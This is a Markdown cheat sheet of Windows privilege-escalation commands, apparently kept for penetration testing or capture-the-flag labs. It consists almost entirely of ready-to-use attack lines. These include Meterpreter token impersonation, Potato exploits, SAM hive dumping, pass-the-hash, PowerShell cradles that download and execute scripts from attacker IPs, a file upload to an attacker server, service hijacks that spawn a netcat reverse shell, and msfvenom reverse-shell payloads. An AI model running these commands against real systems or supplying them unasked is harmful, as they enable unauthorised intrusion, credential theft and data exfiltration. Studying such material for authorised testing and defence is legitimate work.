 ## Meterpreter
### Enumerators
```
run post/multi/recon/local_exploit_suggester
```
### Get Powershell
```
load powershell
powershell_shell
```
### Port forward
```
portfw add -l 455 -p 455 -r 127.0.0.1
```
### Rotten Potato
```
load incognito
list_tokens -u
execute -cH -f rottenpotato.exe
impersonate_token BUILTIN\Administrators
```

## Windows Enum and Utilities
### Manual
```
whoami /all
net user
hostname
systeminfo
tasklist /SVC
ipconfig /all
route print
netstat -ano
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
schtasks /query /fo LIST /v
wmic product get name, version, vendor
wmic qfe get Caption, Description, HotFixID, InstalledOn
accesschk.exe -uws "Everyone" "C:\Program Files"
powershell -c "driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path"
powershell -c "Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like '*VMware*'}"
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```
### Script
```
echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/PowerUp.ps1') | powershell -noprofile -
certutil -urlcache -split -f http://192.168.119.199/windows-privesc-check2.exe
```

### Check permission
```
Get-ACL administrator | Fl *
icacls "file"
```

### Change file permission
```
cacls root.txt /t /e /p Alfred:F
```

### Get sam
```
reg save hklm\sam c:\sam
reg save hklm\system c:\system
```

### With NTLM hash
```
pth-winexe -U jeeves/administrator //10.10.10.63 cmd.exe
```

### Juicy Potato
```
JuicyPotato.exe -l 7777 -p C:\Users\Public\hope.exe -t *
```

### smbserver.py
On attacker machine
```
sudo smbserver.py quang `pwd`
```

On victim machine
```
New-PSDrive -Name "yoyo" -PSProvider FileSystem -Root "\\10.10.14.3\quang"
cd yoyo:
```
### wget
```
certutil -urlcache -f http://123.123.123.123/file c:/user/administrator/file
```
or Create ps file with
```
$client = new-object System.Net.WebClient
$client.DownloadFile("http://10.10.14.3/shell.exe","C:\users\kohsuke\shell.exe")
```

### Upload
```
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.199/upload.php', 'important.docx')
```

## Common Vuln
### Weak service permission
How to spot
```
Use PowerUp script
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
sc qc servicename
```
Exploit
```
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost
```
### An user is admin
Exploit
#### Run as user
```
$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')" -Credential $cred
```

#### Run as NTAuth/System from local admin
```
PsExec.exe -accepteula -i -s %SystemRoot%\System32\cmd.exe
sc create newservicename binPath= "C:\windows\system32\cmd.exe"
sc start newservicename
```

### Elevate from local service or network service
https://github.com/itm4n/FullPowers

### Weak Service binary permission or unquoted service path
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.199 LPORT=443 -f exe-service > shell.exe
```

### Local service
How to spot
```
netstat -ano
tasklist /svc
tasklist /v /fi "pid eq 123"
```

### always install elevated
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.120 lport=443 –f msi > shell.msi
msiexec /quiet /qn /i shell.msi
```

### DLL injection
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking
